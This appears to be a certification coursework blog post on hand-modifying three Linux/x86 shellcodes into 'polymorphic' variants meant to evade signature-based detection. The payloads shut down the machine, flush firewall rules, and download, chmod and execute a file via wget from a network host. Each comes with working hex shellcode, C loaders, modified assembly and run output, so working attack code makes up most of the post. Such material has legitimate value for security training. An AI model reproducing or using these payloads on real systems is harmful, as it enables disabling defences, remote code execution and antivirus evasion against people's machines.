

# Creating polymorphic shellcode

The goal of this article is to create polymorphic verions of three different shellcodes from [http://shell-storm.org](http://shell-storm.org). Polymorphic shellcode has the ability to mutate its code everytime it runs. The instructions changes while algorithm stays intact. The purpose is to evade signature based detections without manually change the shellcode. 

We won't be creating our own polymorphic engine in this article, instead we will manually modify these three shellcodes from shell-storm.org:

- [Linux/x86 - shutdown -h now Shellcode - 56 bytes](http://shell-storm.org/shellcode/files/shellcode-876.php)
- [Linux/x86 - 40 byte shellcode to flush ipchains for Linux x86](http://shell-storm.org/shellcode/files/shellcode-65.php)
- [Linux/x86 - Download + chmod + exec - 108 bytes ](http://shell-storm.org/shellcode/files/shellcode-862.php)

We are not allowed to increase the size more than 50%.

## Shellcode 1: shutdown -h now - 56 bytes

The following program will shutdown your computer immediately when run:

```c
/*
; Title: shutdown -h now Shellcode - 56 bytes
; Date: 2014-06-27
; Platform: linux/x86
; Author: Osanda Malith Jayathissa (@OsandaMalith)

Disassembly of section .text:

08048060 <_start>:
8048060:    31 c0                   xor    eax,eax
8048062:    31 d2                   xor    edx,edx
8048064:    50                      push   eax
8048065:    66 68 2d 68             pushw  0x682d
8048069:    89 e7                   mov    edi,esp
804806b:    50                      push   eax
804806c:    6a 6e                   push   0x6e
804806e:    66 c7 44 24 01 6f 77    mov    WORD PTR [esp+0x1],0x776f
8048075:    89 e7                   mov    edi,esp
8048077:    50                      push   eax
8048078:    68 64 6f 77 6e          push   0x6e776f64
804807d:    68 73 68 75 74          push   0x74756873
8048082:    68 6e 2f 2f 2f          push   0x2f2f2f6e
8048087:    68 2f 73 62 69          push   0x6962732f
804808c:    89 e3                   mov    ebx,esp
804808e:    52                      push   edx
804808f:    56                      push   esi
8048090:    57                      push   edi
8048091:    53                      push   ebx
8048092:    89 e1                   mov    ecx,esp
8048094:    b0 0b                   mov    al,0xb
8048096:    cd 80                   int    0x80

*/

#include <stdio.h>
#include <string.h>

unsigned char code[] =  "\x31\xc0\x31\xd2\x50\x66\x68\x2d"
"\x68\x89\xe7\x50\x6a\x6e\x66\xc7"
"\x44\x24\x01\x6f\x77\x89\xe7\x50"
"\x68\x64\x6f\x77\x6e\x68\x73\x68"
"\x75\x74\x68\x6e\x2f\x2f\x2f\x68"
"\x2f\x73\x62\x69\x89\xe3\x52\x56"
"\x57\x53\x89\xe1\xb0\x0b\xcd\x80";

int
main() {

printf("Shellcode Length:  %d\n", (int)strlen(code));
int (*ret)() = (int(*)())code;
ret();

return 0;
}
```

I extracted the assembly code and modified it manually. The comments prefixed with `[M]` indicates that the instruction has been modified.

```asm
global _start

section .text

_start:

    xor    ecx,ecx                      ; [M] clear ecx
    mul    ecx                          ; [M] clear both eax and edx
    push   edx                          ; [M] push edx instead of eax
    push word 0x682d                    ; -h option
    mov    edi,esp                      ; save stack pointer to edi
    push   eax                          ; push null
    push byte 0x6e                      ; "n" character
    mov byte [esp+1], 0x6f              ; [M] "o" character
    mov byte [esp+2], 0x77              ; [M] "w" character
    mov    edi,esp                      ; save stack pointer to edi
    push   eax                          ; push null
    push   0x6e776f64                   ; these four push instructions correspond to /sbin///shutdown
    push   0x74756873
    push   0x2f2f2f6e
    push   0x6962732f
    mov    ebx,esp                      ; save stack pointer to ebx
    push   edx                          ; push null
    push   esi
    push   edi                          ; points to "-h now"
    push   ebx                          ; points to /sbin///shutdown
    mov    ecx,esp                      ; save stack pointer to ecx
    mov    al,0xc-1                     ; [M] 0xc - 1 = 0xb which is execve() syscall
    int    0x80                         ; Execute syscall
```

Running the modified version returns:

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_6$ ./shellcode
Shellcode length:  59
shutdown: Need to be root
```

Nice! We only added 3 extra bytes. Running the program as `root` shuts down the computer.

## Shellcode 2:  40 byte shellcode to flush ipchains for Linux x86

The purpose of the next shellcode is to delete all ipchains entries. So any firewall rules set in place will be wiped out.

```c
/* By Kris Katterjohn 11/18/2006
 *
 * 40 byte shellcode to flush ipchains for Linux x86
 *
 *
 *
 * section .text
 *
 *      global _start
 *
 * _start:
 *
 * ; execve("/sbin/ipchains", { "/sbin/ipchains", "-F", NULL }, NULL)
 *
 *      push byte 11
 *      pop eax
 *      cdq
 *      push edx
 *      push word 0x462d
 *      mov ecx, esp
 *      push edx
 *      push word 0x736e
 *      push 0x69616863
 *      push 0x70692f6e
 *      push 0x6962732f
 *      mov ebx, esp
 *      push edx
 *      push ecx
 *      push ebx
 *      mov ecx, esp
 *      int 0x80
 */

main()
{
       char shellcode[] =
               "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x46\x89"
               "\xe1\x52\x66\x68\x6e\x73\x68\x63\x68\x61"
               "\x69\x68\x6e\x2f\x69\x70\x68\x2f\x73\x62"
               "\x69\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80";

       (*(void (*)()) shellcode)();
}
```

Because I don't have the command `ipchains` on my system, I cheated a little bit and created the following script in `/sbin/ipchains`:

```bash
#!/bin/bash

/sbin/iptables "$@"
```

The modified shellcode can be seen below. Comments starting with `[M]` indicates that the instruction has been modified.

```asm
section .text

global _start

_start:
    xor ecx, ecx            ; [M] zero out ecx
    mul ecx                 ; [M] zero out edx and eax
    push byte 10            ; [M]
    pop eax                 ; eax = 10
    push ecx                ; push ecx instead of edx
    push 0x2d               ; [M] "-" char
    mov byte [esp+1], 0x46  ; [M] "F" char
    mov ecx, esp            ; save current stack pointer to ecx
    push edx                ; push null
    push word 0x736e        ; following 4 push instructions form /sbin/ipchains
    push 0x69616863
    push 0x70692f6e
    push 0x6962732f
    push 0xdeadbeef         ; [M] add some nonsese
    pop edi                 ; [M]
    mov ebx, esp            ; save currrent stack pointer to ebx
    push edx                ; push null
    push ecx                ; points to "-F"
    push ebx                ; points to /sbin/ipchains
    xor ecx, ecx            ; [M] add some nonsense
    mov edi, esp            ; [M] add some nonsense
    xchg ecx, edi           ; [M] save current stack pointer to ecx
    inc eax                 ; [M] syscall 11: execve()
    int 0x80                ; execute syscall
```

The output below shows how the shellcode deletes a `DROP` rule from iptables:

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_6$ sudo iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination
DROP       all  --  192.168.1.254        anywhere

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination
dubs3c@slae:~/SLAE/EXAM/github/assignment_6$ sudo ./shellcode
Shellcode length:  57
dubs3c@slae:~/SLAE/EXAM/github/assignment_6$ sudo iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination
```

The modified shellcode increased with 17 bytes which is a 42% increase.

## Shellcode 3: Download + chmod + exec - 108 bytes

The next and final shellcode is a little bit bigger than the previous samples. Let's begin modifying it!

```c
/*
; Filename: downloadexec.nasm
; Author: Daniel Sauder
; Website: http://govolution.wordpress.com/
; Tested on: Ubuntu 12.04 / 32Bit
; License: http://creativecommons.org/licenses/by-sa/3.0/

; Shellcode:
; - download 192.168.2.222/x with wget
; - chmod x
; - execute x
; - x is an executable
; - length 108 bytes

global _start

section .text

_start:

    ;fork
    xor eax,eax
    mov al,0x2
    int 0x80
    xor ebx,ebx
    cmp eax,ebx
    jz child
  
    ;wait(NULL)
    xor eax,eax
    mov al,0x7
    int 0x80
        
    ;chmod x
    xor ecx,ecx
    xor eax, eax
    push eax
    mov al, 0xf
    push 0x78
    mov ebx, esp
    xor ecx, ecx
    mov cx, 0x1ff
    int 0x80
    
    ;exec x
    xor eax, eax
    push eax
    push 0x78
    mov ebx, esp
    push eax
    mov edx, esp
    push ebx
    mov ecx, esp
    mov al, 11
    int 0x80
    
child:
    ;download 192.168.2.222//x with wget
    push 0xb
    pop eax
    cdq
    push edx
    
    push 0x782f2f32 ;2//x avoid null byte
    push 0x32322e32 ;22.2
    push 0x2e383631 ;.861
    push 0x2e323931 ;.291
    mov ecx,esp
    push edx
    
    push 0x74 ;t
    push 0x6567772f ;egw/
    push 0x6e69622f ;nib/
    push 0x7273752f ;rsu/
    mov ebx,esp
    push edx
    push ecx
    push ebx
    mov ecx,esp
    int 0x80
    
*/

#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x02\xcd\x80\x31\xdb\x39\xd8\x74\x2a\x31\xc0\xb0\x07\xcd\x80\x31\xc9\x31\xc0\x50\xb0\x0f\x6a\x78\x89\xe3\x31\xc9\x66\xb9\xff\x01\xcd\x80\x31\xc0\x50\x6a\x78\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x6a\x0b\x58\x99\x52\x68\x32\x2f\x2f\x78\x68\x32\x2e\x32\x32\x68\x31\x36\x38\x2e\x68\x31\x39\x32\x2e\x89\xe1\x52\x6a\x74\x68\x2f\x77\x67\x65\x68\x2f\x62\x69\x6e\x68\x2f\x75\x73\x72\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80";

main()
{
    printf("Shellcode Length:  %d\n", strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

Let's go!

```asm
global _start

section .text

_start:

    ;fork
    xor ecx,ecx         ; [M] zero ecx instead of eax
    mul ecx             ; [M] set eax and edx to zero
    mov al, 0x1         ; [M]
    inc al              ; [M] fork syscall
    int 0x80            ; execute syscall
    mov ebx,edx         ; [M] mov edx into ebx instead of xor ebx,ebx
    cmp eax,ebx
    jz child

    ;wait(NULL)
    xor eax,eax
    mov al,0x8          ; [M]
    dec al              ; [M] waitpid syscall
    int 0x80            ; execute syscall

    ;chmod x
    ;xor ecx,ecx        ; this can be removed
    xor eax, eax        ; zero out eax
    push edx            ; [M] push edx instead of eax, null byte
    mov al, 0xf         ; chmod syscall
    push 0x78           ; "x" character
    mov ebx, esp        ; set current stack pointer to ebx
    mov ecx, edx        ; [M] mov ecx,edx instead of xor ecx,ecx
    mov cx, 0x1ff       ; set chmod mode to 511
    int 0x80            ; execute syscall

    ;exec x
    ;xor eax, eax       ; this can be removed
    push edx            ; [M] push edx instead of eax
    push 0x78           ; "x" character
    mov ebx, esp        ; set current stack pointer to ebx
    push edx            ; [M] push edx instead of eax
    mov edx, esp        ; set current stack pointer to edx
    push ebx
    mov ecx, esp
    mov al, 0xa         ; [M]
    inc al              ; [M] 0xb is execve syscall
    int 0x80            ; execute syscall

child:
    ;download 192.168.1.20/x with wget
    xor ecx, ecx        ; [M]
    mul ecx             ; [M]
    mov al, 0xb         ; [M] execve syscall
    push edx

    push word 0x782f    ; [M] /x avoid null byte
    push 0x30322e31     ; [M] 20.1
    push 0x2e383631     ; .861
    push 0x2e323931     ; .291
    mov ecx,esp
    push edx

    push 0x74           ;t
    push 0x6567772f     ;egw/
    push 0x6e69622f     ;nib/
    push 0x7273752f     ;rsu/
    mov ebx,esp
    push edx
    push ecx
    push ebx
    mov ecx,esp
    int 0x80            ; execute syscall
```

We added 5 bytes and removed 2 lines from the original shellcode. This results in a total of 113 bytes for the modified shellcode. That's a 4% increase :) The image below shows how the program downloads a file and executes it.



That's it, stay tuned for the next and final article in my SLAE series.

---
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[https://www.pentesteracademy.com/course?id=3](https://www.pentesteracademy.com/course?id=3)

Student ID: SLAE-1490
